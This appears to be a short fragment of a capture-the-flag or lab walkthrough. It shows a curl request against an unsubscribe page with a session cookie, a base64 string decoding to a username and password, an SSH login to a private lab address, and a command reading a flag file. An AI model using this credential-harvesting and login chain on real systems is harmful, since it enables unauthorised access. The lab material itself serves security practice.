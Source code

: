 ```shell
curl -i -L -H "Cookie: PHPSESSID=2cc936825af3481caf44bd9366b1c588" \
"http://target:80/user/unsubscribe.php?uid=83271"
```

---

```bash
echo "c3lzYWRtaW46cEBzc3dvcmQxMjM=" | base64 -d
```

---

```shell
ssh -p 2222 admim@192.168.111.101
```

Enter password...

```shell
cat /var/tmp/flag.txt
```
